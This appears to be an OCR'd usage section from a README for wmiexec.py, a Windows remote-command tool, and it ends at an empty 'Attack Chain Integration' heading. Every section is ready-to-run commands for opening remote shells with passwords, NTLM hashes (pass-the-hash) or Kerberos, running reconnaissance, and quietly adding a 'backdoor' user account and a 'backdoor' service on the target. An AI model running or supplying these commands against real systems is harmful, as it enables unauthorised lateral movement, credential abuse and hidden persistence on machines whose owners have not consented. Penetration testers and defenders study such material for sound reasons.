 ## Usage Examples

### Basic Remote Shell
```bash
# Interactive shell with password authentication
python3 wmiexec.py domain.com/administrator:password@target.domain.com

# Interactive shell with hash authentication
python3 wmiexec.py -hashes :ntlmhash administrator@target.domain.com

# Interactive shell with Kerberos
python3 wmiexec.py -k domain.com/administrator@target.domain.com -dc-ip 192.168.1.10
```

### Single Command Execution
```bash
# Execute single command
python3 wmiexec.py domain.com/administrator:password@target.domain.com "whoami"

# Get system information
python3 wmiexec.py domain.com/administrator:password@target.domain.com "systeminfo"

# List running processes
python3 wmiexec.py domain.com/administrator:password@target.domain.com "tasklist"
```

### PowerShell Execution
```bash
# Use PowerShell instead of cmd
python3 wmiexec.py domain.com/administrator:password@target.domain.com -shell-type powershell

# Execute PowerShell command directly
python3 wmiexec.py domain.com/administrator:password@target.domain.com "powershell.exe -Command Get-Process"
```

### Advanced Options
```bash
# Execute without retrieving output (silent)
python3 wmiexec.py domain.com/administrator:password@target.domain.com -nooutput "net user backdoor P@ss123 /add"

# Use custom share for output
python3 wmiexec.py domain.com/administrator:password@target.domain.com -share C$ "dir"

# Silent command execution
python3 wmiexec.py domain.com/administrator:password@target.domain.com -silentcommand "sc create backdoor binPath= cmd.exe"
```

## Attack Chain Integration
